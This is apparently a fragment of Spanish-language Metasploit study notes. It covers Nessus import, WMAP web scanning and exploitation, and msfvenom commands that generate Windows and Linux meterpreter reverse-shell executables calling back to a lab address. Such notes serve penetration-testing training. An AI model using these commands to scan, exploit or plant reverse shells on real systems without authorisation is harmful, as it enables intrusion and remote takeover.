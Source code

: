 ```bash
```

### Nessus

>Los **.nessus** también los procesa

```bash
db_import ruta.nessus
vulns -p 80
hosts
```

### WMAP

> Escanea y explota las apps Webs

- Iniciar

```bash
load wmap
wmap_sites -h
# añade un sitio
wmap_sites -a IP
# Setea los targets
wmap_targets -t url
# Intentamos petar
wmap_run -h
wmap_run -t --> Vemos todos los módulos
wmap_run -e --> lanzamos
# Listamos vulns
wmap_vulns -l
```

## Msfvenom

- Listar posibles payloads
```bash
msfvenom -l payloads
msfvenom -l formats
```

- Crear un buen payload ahí, que me abra paso a hackear la NASA
```bash
# 32 bits Windows
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > /home/kali/Desktop/Windows/Payloads/payloadx86.exe

# 64 bits Windows
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > /home/kali/Desktop/Windows/Payloads/payloadx64.exe

# 32 Bits linux
msfvenom  -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > /home/kali/Desktop/Windows/Payloads/payloadx32.exe

# 64 Bits linux
msfvenom  -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > /home/kali/Desktop/Windows
Payloads/payloadx64.exe
```
